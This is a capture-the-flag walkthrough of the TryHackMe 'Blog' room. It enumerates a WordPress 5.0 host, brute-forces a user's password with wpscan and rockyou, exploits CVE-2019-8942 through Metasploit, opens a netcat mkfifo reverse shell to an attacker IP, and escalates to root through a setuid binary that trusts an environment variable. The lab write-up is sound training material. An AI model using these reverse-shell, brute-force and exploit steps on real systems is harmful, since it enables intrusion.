





# Blog CTF

* * *

## Walkthrough of <a href="https://tryhackme.com/room/blog" target="_blank">Blog CTF</a> at <a href="https://www.tryhackme.com" target="_blank">tryhackme.com</a>


This room is about simple reverse engineering, weak credentials and some WordPress RCE.
* * *
Room description:
```
Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to Sq00ky for the root privesc idea ;)
```
Questions:
```
#1 root.txt
9a0b2b6*************************
```
```
#2 user.txt
c8421899aae*********************
```
```
#3 Where was user.txt found?
/media/usb
```

```
#4 What CMS was Billy using ?
wordpress
```

```
#5 What version of the above CMS was being used ?
5.0
```
* * *

## Nmap Scan

```
$ nmap -sC -sV -oN nmap.txt $ip

Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2020-07-12T10:01:40+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-12T10:01:40
|_  start_date: N/A


========================================
smb-enum-shares.nse


Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.184.251\BillySMB: 
|     Type: STYPE_DISKTREE
|     Comment: Billy's local SMB Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\smb\files
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.184.251\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (blog server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.184.251\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```

## There is SMB server on the machine, which is a rabbit hole, as it is said in the room's description
### The contents is the following

```
$ smbclient -U anonymous //blog.thm/BillySMB
Enter WORKGROUP\anonymous's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 21:17:05 2020
  ..                                  D        0  Tue May 26 20:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 21:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 21:13:45 2020
  check-this.png                      N     3082  Tue May 26 21:13:43 2020
```
## Lets download the files
```
$ file Alice-White-Rabbit.jpg check-this.png tswift.mp4 
Alice-White-Rabbit.jpg: JPEG image data, JFIF standard 1.02, aspect ratio, density 100x100, segment length 16, baseline, precision 8, 400x300, components 3
check-this.png:         PNG image data, 200 x 200, 8-bit/color RGBA, non-interlaced
tswift.mp4:             ISO Media, MP4 v2 [ISO 14496-14]
```

### It clearly says it is a rabbit hole
```
$ steghide extract -sf Alice-White-Rabbit.jpg 
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".

$ cat rabbit_hole.txt 
You've found yourself in a rabbit hole, friend.
```
### Lets start enumerating for vulnerabilities

<a href="pics/blog-ctf/blog-home.png" target="_blank"></a>

We can see that it is a standard WordPress blog.
We can see 2 post from different people so based on that, potentually 2 WordPress users:
```
wp users
====
kwheel - the mother - author
bjoel - the son
====
```
If we run wpscan to confirm we get exactly these 2 usernames, but also we find out the CMS version - `[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06)`. So WordPress 5.0, lets dig for an exploit

```
$ searchsploit wordpress 5.0
---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
WordPress 5.0.0 - Crop-image Shell Upload (Metasploit)    | exploits/php/remote/46662.rb
WordPress Core 5.0 - Remote Code Execution                | exploits/php/webapps/46511.js
WordPress Plugin Custom Pages 0.5.0.1 - Local File Inclus | exploits/php/webapps/17119.txt
WordPress Plugin FeedWordPress 2015.0426 - SQL Injection  | exploits/php/webapps/37067.txt
WordPress Plugin Marketplace Plugin 1.5.0 < 1.6.1 - Arbit | exploits/php/webapps/18988.php
WordPress Plugin Network Publisher 5.0.1 - 'networkpub_ke | exploits/php/webapps/37174.txt
WordPress Plugin Nmedia WordPress Member Conversation 1.3 | exploits/php/webapps/37353.php
WordPress Plugin Quick Page/Post Redirect 5.0.3 - Multipl | exploits/php/webapps/32867.txt
WordPress Plugin WP-Property 1.35.0 - Arbitrary File Uplo | exploits/php/webapps/18987.php
WordPress Plugin leenk.me 2.5.0 - Cross-Site Request Forg | exploits/php/webapps/39704.txt
---------------------------------------------------------- ----------------------------------------
```

Lets take a look at the first exploit or <a href="https://nvd.nist.gov/vuln/detail/CVE-2019-8942" target="_blank">CVE 2019-8942</a>

Lucky for us there is a metasploit module already build for this exploit.

<a href="pics/blog-ctf/msf1.png" target="_blank"></a>

As we can see it requires username and password for the WP account, lets try bruteforcing them

```
$ wpscan --url blog.thm --passwords '/usr/share/wordlists/rockyou.txt' --usernames 'kwheel'

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / [redacted]
```
We have found the credentials for kwheel.
Now lets run the exploit once again, providing USERNAME/PASSWORD from above.

<a href="pics/blog-ctf/msf2.png" target="_blank"></a>

Lets get a standard reverse shell

```
meterpreter> shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1337 >/tmp/f
python -c 'import pty; pty.spawn("/bin/bash")'
```

We get dropped at the wordpress directory, I checked out `wp-config.php` and found these credentials:
```
/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');
```
Which are for the WordPress account of `bjoel`, but not for the box user.

Lets see what check out the home directory. It only contains `bjoel` folder with `user.txt` and a PDF file. <br>
Here is the catch - user.txt is not the flag - the file says:
```
You won't find what you're looking for here..

TRY HARDER
```
But there is a hint, in the other file, inside this directory.

<a href="pics/blog-ctf/letter.png" target="_blank"></a>

It says something about USB and removable media misuse. So lets check `/media` to see if there is anything mounted?

```
$ ls /media
usb
$ ls /media/usb
ls: cannot open directory '/media/usb': Permission denied
```
So lets find a privesc.
Here I ran linpeas and other enumeration tools but something have catched my attention, something you that cannot be seen at standard linux install - `/usr/sbin/chcker` <br>

If I try to run it I get the following output `Not an Admin`. Lets take a deep dive to that file...

```
$ file checker 
checker: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6cdb17533a6e02b838336bfe9791b5d57e1e2eea, not stripped
```
```
$ strings checker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
puts
getenv
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
=9       
AWAVI
AUATL
[]A\A]A^A_
admin
/bin/bash
Not an Admin
;*3$"
GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7698
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
checker.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
getenv@@GLIBC_2.2.5
_ITM_deregisterTMCloneTable
puts@@GLIBC_2.2.5
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```
So definetly not a standard executable, lets reverse engineer it with <a href="https://ghidra-sre.org/" target="_blank">Ghidra</a>.

<a href="pics/blog-ctf/checker-decompiled.png" target="_blank"></a>

So the code is pretty straigth forward, basically it checks if there is an enviroment vairable with named `admin`. If there is it drops you into a root shell.

Lets create our variable and execute it again.

```
export admin=owned
/usr/sbin/checker
root@blog:/var/www/wordpress# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

### Rooted!

Now lets get the root and user flag (it was a hint here too, because in THM they were asking for root.txt first).

```
cat /root/root.txt
9a0b2b6*************************

ls /media/usb
user.txt

cat /media/usb/user.txt
c8421899aae*********************
```